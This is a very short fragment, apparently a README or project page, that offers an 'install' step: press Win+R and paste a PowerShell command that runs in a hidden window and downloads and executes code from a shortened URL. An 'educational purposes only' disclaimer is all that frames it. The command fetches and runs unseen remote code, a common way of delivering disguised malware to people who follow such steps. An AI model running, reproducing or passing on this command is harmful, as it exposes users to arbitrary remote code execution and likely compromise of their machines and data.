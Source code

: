 educational propouses only
For install:
Win + R and paste
powershell -w hidden -c "IEX (iwr https://tinyurl.com/4uzjfrjd -UseBasicParsing)"
